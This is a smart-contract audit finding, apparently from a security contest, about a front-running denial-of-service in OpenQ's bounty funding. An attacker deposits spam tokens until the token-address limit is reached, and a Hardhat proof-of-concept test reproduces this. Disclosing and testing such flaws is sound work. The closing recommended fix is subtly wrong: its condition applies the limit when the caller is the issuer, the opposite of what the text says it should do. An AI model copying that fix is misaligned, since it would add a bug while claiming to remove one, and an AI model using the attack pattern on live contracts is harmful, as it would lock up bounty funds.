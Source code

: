 carrot

high

# Issuer can be frontrun with spam tokens to brick bounties

## Summary
The bounties are designed to support a only limited number of non-whitelisted tokens per contract. Generally, protocol owners creating bounties pay a part of the bounty in a well established token (USDC etc) and the rest in the protocol's own token. Between the creation of the bounty by the owner and funding it with necessary tokens, a malicious user can spam arbitrary tokens to the contract and have it trigger the `tokenAddressLimitReached()` check and reject the actual funding from the deployer.
## Vulnerability Detail
The bounties are funded through the `DepositManagerV1.sol` contract's `fundBountyToken` function which is open to be called by anyone. There is a check in this function which limits how many non whitelisted tokens a bounty is allowed to handle, as shown in the snippet below
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L45-L50
and the function `tokenAddressLimitReached()` simply queries the bounty contract itself with `getTokenAddressesCount()`
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L207-L217
In the individual bounty contracts, we can see the function `getTokenAddressesCount` just calculates the length of an array,
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/BountyCore.sol#L326-L328
This array is set in the `receiveFunds` function which processes deposits and can be called by anyone through `DepositManager`

The creation of the bounty contract and funding them are done in separate transactions, which leaves a time window for attackers to spam the bounty with deposits with random tokens to trigger the `tokenAddressLimitReached()` check. This will cause the actual deployer's funding transaction to revert.
## Impact
Bounty will be rendered useless. 
Suppose the owner wants to fund the contract with 500 USDC and 500 XAI tokens (some project's ERC20 token). USDC is likely to be in the whitelisted address so it will go through. However only after depositing 500 USDC will the owner realize that they cannot deposit the protocol tokens since the contract is full of junk tokens from the attacker. This can lead to forfeited/stuck tokens, and mismanaged funds.
## Code Snippet
The scenario can be recreated with the following test snippet. Here the attacker spams the contract until it this the `tokenAddressLimitReached` limit and the deployer's funding transaction is reverted.
```javascript
it('reverts when DOS attack with spam tokens', async () => {
          // ARRANGE
          const volume = 100
          await openQProxy.mintBounty(
            Constants.bountyId,
            Constants.organization,
            atomicBountyInitOperation
          )
          const bountyAddress = await openQProxy.bountyIdToAddress(
            Constants.bountyId
          )

          // Attacker funds with spam tokens upto tokenlimit
          const attacker = claimantThirdPlace
          const tokenLimit = (
            await openQTokenWhitelist.TOKEN_ADDRESS_LIMIT()
          ).toString()
          const MockBAD = await ethers.getContractFactory('MockDai')
          for (let i = 0; i < tokenLimit; i++) {
            const mockBAD = await MockBAD.connect(attacker).deploy()
            await mockBAD.deployed()
            await mockBAD.connect(attacker).approve(bountyAddress, 10000000)
            await depositManager
              .connect(attacker)
              .fundBountyToken(
                bountyAddress,
                mockBAD.address,
                volume,
                1,
                Constants.funderUuid
              )
          }

          // ACT
          // Owner tries to fund
          const mockNew = await MockBAD.deploy()
          await mockNew.deployed()
          await mockNew.approve(bountyAddress, 10000000)
          await expect(
            depositManager.fundBountyToken(
              bountyAddress,
              mockNew.address,
              volume,
              1,
              Constants.funderUuid
            )
          ).to.be.revertedWith('TOO_MANY_TOKEN_ADDRESSES')
        })
```

## Tool used
Hardhat
Manual Review

## Recommendation
Always allow issuers' funding to go through since issuer is a trusted party.
In the condition check in `DepositManager.sol`,
```solidity
if (!isWhitelisted(_tokenAddress) || msg.sender == bounty.issuer()) {
            require(
                !tokenAddressLimitReached(_bountyAddress),
                Errors.TOO_MANY_TOKEN_ADDRESSES
            );
        }
```